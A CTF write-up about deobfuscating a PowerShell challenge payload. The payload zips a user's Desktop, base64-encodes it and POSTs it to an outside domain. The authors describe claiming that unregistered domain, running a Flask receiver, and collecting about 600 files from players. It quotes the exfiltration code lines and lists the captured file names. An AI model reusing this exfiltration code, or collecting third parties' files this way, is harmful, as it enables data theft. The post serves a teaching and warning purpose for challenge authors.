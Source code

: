 # How we turned a challenge against the players and creators

## About the Challenge

During the process of deobfuscating the powershell payload from [the IR challenge](../IR/IR.md), we noticed that the domain to which all the encrypted files were being sent was not yet claimed. Here's an explanation of how we received hundreds of decryptable files the CTF players sent us by running the encrypter.

## How we did it

After we deobfuscated the first stage of the payload, we stumbled across this powershell code:
![](PowershellCode.png)

In the second-last line, you can see the following piece of powershell code:

```ps
Invoke-Webrequest -Method Post -Uri "https://www.thepowershellhacker.com/exfiltration" -Body $body
```

---

This line sends a variable called `body` to `www.thepowershellhacker.com/exfiltration` in a post request.

The variable `body` is specified a bit earlier in the code:

```ps
$zipFileBytes = Get-Content -Path ("C:\Users\"+$user+"\Downloads\Desktop.zip") -Raw -Encoding Byte
$zipFileData = [Convert]::ToBase64String($zipFileBytes)
$body = ConvertTo-Json -InputObject @{file=$zipFileData}
```

Here we can clearly see that a zip file from the desktop (containing every file from the desktop) gets encoded in Base64, and then transferred into a Json object.

---

Out of curiosity, we quickly checked if the domain `thepowershellhacker.com` was claimed, expecting it to be.

However, to our surprise, it wasn't!
![](claimed.png)

_A Dutch website to check if the domain is available for sale._

## What now?

---

After we claimed the domain, we went ahead and set up a python web server, which would listen for incoming requests:

```python
from flask import Flask, request, jsonify
import time

app = Flask(__name__)

@app.route('/exfiltration', methods=['POST'])
def result():

    fileName = str(time.time()) + '.base64.zip'
    f = open(fileName, 'w+')

    receivedFile = request.get_json(force=True)['file']
    f.write(receivedFile)

    f.close()
    return "", 200

if __name__ == '__main__':
    app.run(host="127.0.0.1", port=2001)
```

This python web server would receive the base64 encoded payload from the body, pull it out of the json object, and put it in a file.

## What did we receive?

After the Nahamcon CTF ended, we went ahead and checked how many files we received:
![](results.png)

We received a total of 600 files, that's insane!
Sadly, after mass decrypting all the files we received, we came to the conclusion that there are _only_ 33 files that are from something other than this ctf.
Here's a list of all the files that were not part of the CTF challenge:

```
Ableton Live 11 Suite.lnk
asdf
ASDF
asdf.ps1
Autoruns.lnk
available_packages.txt
Bitdefender.lnk
config.xml
desktop.ini
failed_packages.txt
fakenet_logs.lnk
file.txt
flare-vm-4
Ghost Toolbox.lnk
HitmanPro.Alert.lnk
imac.py
kanker.txt
New Text Document.txt
nice.ps1
NPE.lnk
ProcessExplorer.lnk
PSDecode.ps1
QQ.lnk
readme.txt
TCPView.lnk
Telegram.lnk
test.txt
tes.txt
Tools.lnk
UpdateHealthTools.001.etl
UpdateHealthTools.001.evtx
x32dbg.lnk
x64dbg.lnk
```

A lot of these files end in `.lnk`, which means they are windows file shortcuts. They're not interesting.

After manually going through all the files, we concluded that nothing really of interest was captured. This means that almost everyone was smart enough to not run this on their own desktop environment but in the VM supplied by the Nahamcon CTF.

We'd also like to note that we didn't receive anything that could be identified back to a specific users, nor did we receive any sensitive files. Next to that, we'll destroy all the files and logs we've received.

## Was this a waste of time?

No, this absolutely wasn't a waste of our time and resources. First of all, the CTF challenge in itself was already pretty fun to solve. Next to that, we quite enjoyed the process of making all of our quick and dirty tools. From the python web server, to the mass decoders. We're also delighted to see that almost everyone ran the "ransomware" in the Virtual Machine supplied by the CTF organizers, and not on their own machine.

We absolutely loved the process we went through by making this.

## Avoiding such problems in the future

Adding web requests to a CTF challenge can add flavour and make it more engaging, but how to best avoid such mistakes?

- First of all, make sure you have full control over the domain or IP you include in the challenge.
- However, if that's not feasible, using a non-existent TLD, like `hacker.d0main` makes it impossible for someone to claim such a domain.
- Eventually, one can include an IPv4 address that starts with `127`. For example, 127.13.65.78 and 127.84.65.183 both point to localhost, making sure the requests won't leave the competitor's machine.

---

> _We want to thank Nahamsec and John Hammond for making and hosting this Capture the Flag tournament. And we'd also like to thank `@awesome10billion#1164` for making the forensics challenge. We quite enjoyed it._

###### Written by Crunch & [Chillz](https://viberunner.xyz)
